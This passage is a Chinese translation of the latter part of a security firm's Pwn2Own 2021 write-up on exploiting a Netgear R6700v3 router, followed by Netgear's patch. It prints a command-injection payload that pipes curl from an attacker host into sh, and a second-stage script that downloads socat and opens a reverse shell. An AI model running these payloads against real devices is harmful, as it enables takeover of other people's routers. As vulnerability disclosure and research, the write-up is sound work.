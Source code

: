 我们使用一个网络服务器，它为每个请求提供不同的文件与不同的保存在 $R4。

#### 优化载荷

强制堆地址是可行的，但由于循环的二进制中的内部计时器(每次尝试间隔 3 或 4 秒)，速度很慢。为了阻止攻击，我们选择用 256 字节的步骤解析堆，并在 shell 脚本之前使用特定的负载。

这个有效负载由 260 个“a”和一个分号“;”以及后面的命令组成。如果 $R0 点在长' aaa '部分的任何地方，我们以调用结束：

```shell
system("a(...)a;curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;")
```

shell 处理一个 'a(...)a' 例如一个命令，不能执行它（带有“command not found error”），然后继续使用 curl 命令，漏洞利用也是如此。

这个策略被发现是有效的，我们很快就得到了一个 shell。

“exploit”其实很简单。我们下载一个 socat 二进制文件并启动一个反向 shell。虽然这个第二阶段是不必要的，但我们更愿意让第一个有效负载尽可能小（curl 管道到 shell），以最大限度地增加在堆内存中发现它的机会。我们能够在“exploit”中输入任何命令，因此我们在 Netgear 路由器上实现了一个灯光显示：

```shell
#!/bin/sh
#Any .com name will point to attacker machine, thanks to dnsmasq config
HOST=bla.com
PORT=4242
# Download socat for the reverse shell
curl -k https://${HOST}/s/socat -o /tmp/socat
chmod +x /tmp/socat
# Reverse shell
# Necessary to manually grab the IP because the statically linked socat can't resolve it
IP=$(ping -c1 ${HOST} | head -n1 | cut -d'(' -f2 | cut -d')' -f1)
/tmp/socat exec:/bin/sh,pty,stderr,setsid,sigint,sane tcp:${IP}:${PORT} &
# And now, a small lightshow :-)
while true; do
  leddown
  sleep 1
  ledup
  sleep 1
done
```

### 利用脚本和使用

根据这个文档，已经开发了一些脚本来证明这种利用。

所有这些脚本都可以从我们的 [GitHub 库][4]下载，并附有如何使用它们的说明。

### 补丁

为了弥补这个漏洞，Netgear 发布了 1.0.4.126 版本的补丁。

首先，他们删除了 curl 命令行中的 `-k` 开关，这将阻止我们模拟更新服务器。然后，他们修改了解析器：

```c
while ( fgets(line, 1024, v7) )
{
   if ( sscanf(line, "255%s %255s", db_checksum, db_checksum_val) == 2
        && !strcmp(db_checksum, "db_checksum") )
  (...)
```
%255s 限制将防止缓冲区溢出。


[#]: subject: "PWN2OWN AUSTIN 2021 : DEFEATING THE NETGEAR R6700V3"
[#]: via: "https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html"
[#]: author: "Kevin Denis, Antide Petit"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27646
[2]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27644
[3]: https://blog.grimm-co.com/2021/09/mama-always-told-me-not-to-trust.html
[4]: https://github.com/synacktiv/Netgear_Pwn2Own2021